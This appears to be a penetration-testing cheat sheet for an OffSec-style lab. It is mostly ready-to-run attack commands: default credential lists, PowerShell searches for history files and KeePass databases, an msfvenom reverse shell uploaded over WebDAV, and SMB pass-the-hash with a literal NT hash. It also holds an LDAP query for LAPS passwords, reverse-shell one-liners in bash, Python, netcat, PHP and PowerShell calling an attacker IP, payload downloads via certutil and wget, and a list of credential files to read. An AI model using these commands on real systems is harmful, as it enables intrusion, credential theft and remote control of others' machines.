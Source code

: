 # Default Credentials
```bash
admin:admin
admin:password
admin:null
root:root
root:password
root:null
platform:platform
```

# Windows juicy files 
```bash
> type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
> type C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
> Get-History
> (Get-PSReadlineOption).HistorySavePath

> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
> Get-ChildItem -Path C:\Users -Include *.txt,*.ini,*.log,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```

# HTTP/HTTPS(80,8080,8000,443...)

## wappalyzer

## gobuster
```bash
gobuster dir -u http://192.168.216.122/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,aspx,jsp,pdf
```

## feroxbuster (must add -x 
```bash
└─# feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --url http://192.168.216.10/ -x php,aspx,jsp,pdf -C 404,401,403 -k
```



## nikto: find webdav, other vuln
```bash
nikto -h http://192.168.222.122
```


## cadaver(username,password required)
```bash
# first create a reverse shell(asp, aspx)
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f aspx > shell.aspx

# connect to cadaver
cadaver http://10.3.20.218/webdav
put /root/offsec/shell.aspx
```


## wpscan: wordpress
```bash

```


## phpmyadmin: default password
- use default password(password can be null)
- upload php uploader: https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f
- upload simple-backdoor.php through SQL



# PORT 445: SMb
## crackmapexec smb
```bash
crackmapexec smb 192.168.216.165 -u 'enox' -p '' --shares
```

## smbclient
```bash
smbclient \\\\192.168.161.31\\share -U 'Administrator' -N
smbclient \\\\192.168.50.212\\share -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

## smbserver
```bash
sudo smbserver.py -smb2support share $(pwd) 
sudo smbserver.py -smb2support share $(pwd) -user kali -password kali

```


# PORT 389,3268: LDAP
## ldapsearch: focus on samaccount and description
```bash
# unauthenticated
ldapsearch -x -H ldap://192.168.216.122 -D 'hutch.offsec'  -b 'DC=hutch,DC=offsec'

# authenticated(LAPS found from SYSVOL)
ldapsearch -x -H 'ldap://192.168.216.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```


# SNMP(161)
```bash
snmpwalk -c public -v1 192.168.x.x
snmpwalk -v2c -c public 192.168.195.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
```


## socat
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<victim.ip.add.ress>:9999
```


## NMAP
```bash
sudo nmap -A -p- -T4 192.168.245.145
sudo nmap -sU --open --top-ports 20 -sV 192.168.245.149

```

## Reverse shell
```bash
# bash
bash -i >& /dev/tcp/192.168.45.176/80 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.45.176/80 0>&1'
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.176%2F80%200%3E%261%22
echo -n '/bin/bash -c "bin/bash -i >& /dev/tcp/192.168.45.176/80 0>&1"' | base64

# python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.176",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.176",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#netcat reverse shell
nc -e /bin/sh 192.168.45.176 80

#PHP reverse shell
php -r '$sock=fsockopen("192.168.45.176",80);exec("/bin/sh -i <&3 >&3 2>&3");'

#Powershell: Create powershell reverse shell on kali linux
$ kali@kali:~$ pwsh

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText

$powershell -enc $EncodedText

```

## curl
```bash
# GET Request
curl -i http://192.168.50.16:5002/users/v1/admin/password

# POST Request
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

# PUT Request
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```

## File Download(When not working, make sure to use 80 and also try it without http://)
```bash
#certutil
certutil -urlcache -split -f http://192.168.45.176:8000/winPEAS.exe c:/users/public/winPEAS.exe

#wget
wget http://192.168.45.176:8000/rev.sh
wget -P /tmp/rev.sh http://192.168.45.176:8000/rev.sh


#powershell
iwr -uri http://192.168.45.176:8000/winPEAS.exe -outfile c:/users/public/winPEAS.exe

#curl
curl http://192.168.45.176/<FILE> > <OUTPUT_FILE>

```


# File Read Exploit
- If the server is running with NY SYSTEM or sudo(root), we can grab any files
- Check SSH Keys [id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, id_dsa]
  - /home/username/{id_rsa}
  - /home/username/.ssh/{id_rsa}  
- find password files for other program that's running(for authenticated exploit that we can actually get reverse shell)
- /etc/passwd
- /etc/shadow
- /home/username/.bash_history
- /home/username/.bash_aliases


